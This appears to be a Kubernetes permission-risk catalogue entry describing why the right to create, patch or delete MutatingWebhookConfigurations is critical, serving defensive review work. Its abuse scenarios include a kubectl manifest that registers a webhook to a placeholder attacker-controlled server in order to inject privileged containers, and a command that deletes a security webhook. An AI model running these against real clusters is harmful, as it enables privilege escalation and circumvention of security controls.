 ```yaml
---
id: 1043
title: "Manage MutatingWebhookConfigurations"
description: "Grants control over MutatingWebhookConfigurations, which can modify API objects during admission. This is extremely critical as an attacker can create or alter webhooks to inject malicious configurations, escalate privileges, bypass security policies, or cause denial of service."
category: Tampering
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                                     |
| ------------- | ------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1043                                                                                                                      |
| Name          | Manage MutatingWebhookConfigurations                                                                                      |
| Risk Category | Tampering                                                                                                                 |
| Risk Level    | {{< risk Critical >}}                                                                                                     |
| Role Type     | ClusterRole                                                                                                               |
| API Groups    | admissionregistration.k8s.io                                                                                              |
| Resources     | mutatingwebhookconfigurations                                                                                             |
| Verbs         | create, update, patch, delete                                                                                             |
| Tags          | {{< tag "DenialOfService" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WebhookManipulation" >}} |

## Description

Grants control over MutatingWebhookConfigurations, which can modify API objects during admission. This is extremely critical as an attacker can create or alter webhooks to inject malicious configurations, escalate privileges, bypass security policies, or cause denial of service.

## Abuse Scenarios

1. Create a new MutatingWebhookConfiguration to inject privileged containers into pods.

```bash
kubectl create -f - <<EOF
apiVersion: admissionregistration.k8s.io/v1
kind: MutatingWebhookConfiguration
metadata:
  name: privileged-injector
webhooks:
- name: privileged-injector.example.com
  clientConfig:
    url: "https://<malicious-webhook-server>/mutate" # Attacker-controlled server
    caBundle: <base64-encoded-ca-cert> # Self-signed CA for attacker's server
  rules:
  - operations: ["CREATE"]
    apiGroups: [""]
    apiVersions: ["v1"]
    resources: ["pods"]
  admissionReviewVersions: ["v1", "v1beta1"]
  sideEffects: None
  failurePolicy: Ignore # To avoid breaking legitimate operations
EOF
# Example: kubectl create -f - <<EOF ... EOF

```

2. Delete a critical MutatingWebhookConfiguration, potentially bypassing security policies.

```bash
kubectl delete mutatingwebhookconfiguration <webhook-name>
# Example: kubectl delete mutatingwebhookconfiguration pod-defaults-webhook

```
